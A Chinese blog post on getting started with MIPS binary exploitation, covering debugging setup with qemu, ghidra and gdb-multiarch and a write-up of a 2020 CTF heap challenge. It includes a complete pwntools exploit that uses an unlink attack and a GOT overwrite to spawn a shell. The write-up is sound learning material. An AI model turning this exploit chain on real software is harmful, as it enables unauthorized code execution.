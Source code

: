 ```yaml
---
layout:     post
title:      mips架构 pwn入门之路
subtitle:   学习mips架构下pwn题目的调试
date:       2020-11-2
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - mips pwn
    - wp


---
```


## 环境搭建

网上大师傅们都讲的很详细了

我是看着[这个师傅的博客](https://ray-cp.github.io/archivers/MIPS_Debug_Environment_and_Stack_Overflow)装的环境，之前ida插件mipsrop没有安装成功，又被自己蠢到了，插件的py文件要放在包目录中的MacOS下的plugins文件夹中，而不是打开包目录中的Plugins文件夹

### 安装ghidra

再[官网](https://ghidra-sre.org/)下载（需要java环境）

直接用命令行打开ghidraRun文件即可打开

[使用详解](https://zhuanlan.zhihu.com/p/59637690)



## 例题复现

### 西湖论剑2020线上赛 massagesystem

题目提供文件

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazeivmkxj30x205e3yw.jpg)

`./run.sh`可以直接运行

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkayvuy8w5j312y08iwh5.jpg)

32位的mips小端序程序，保护全关

调试

可以一个shell直接打开

```shell
qemu-mipsel-static -g 1234 -L ./ ./ma
```

或者与pwntools联动

```python
from pwn import*
import sys

context.binary = "ma"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
  p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
  p = process(["qemu-mipsel-static", "-L", "./", "./ma"])
else:
  p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./ma"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```



用ghidra打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazjq2bzgj31da0u0qe0.jpg)

漏洞在modify函数里

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkazjwggrsj313g0qcjt6.jpg)

可以看到在编辑的时候溢出了8个字节，正好可以控制下一个chunk的prev_size和size，可以用unlink将一个chunk改为储存堆地址的note_list的前面，之后再泄露got表中的libc地址、修改got表，即可getshell

由于不能使用heap、bin等指令查看堆分配情况，可以在分配堆的函数后下一个断点，查看返回的堆地址

exp:

``` python
from pwn import*
import sys

context.binary = "ma"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./", "./ma"])
else:
    p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./ma"])

li = 0x0411830
free_got = 0x4117B4


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(sz,con):
	ru('>>')
	sl('1')
	ru('length:')
	sl(str(sz))
	ru('info:')
	sl(con)

def delete(idx):
	ru('>>')
	sl('2')
	ru('user:')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('>>')
	sl('3')
	ru('edit:')
	sl(str(idx))
	ru('info:')
	sl(con)

add(0x80,'aaa')
add(0x80,'bbb')
add(0x80,'ccc')
add(0x20,'/bin/sh')
edit(0,p32(0)+p32(0x81)+p32(li-12)+p32(li-8)+'a'*0x70+p32(0x80)+p32(0x88))
delete(1)
edit(0,p64(0)+p32(li)+p32(0x80)+p32(free_got)+p32(0x8))

show(1)
p.recvuntil('info: ')
libc_base = u32(p.recv(4)) - 0x56B68
system = libc_base + 0x5F8F0

edit(1,p32(system))
delete(3)


ia()


```

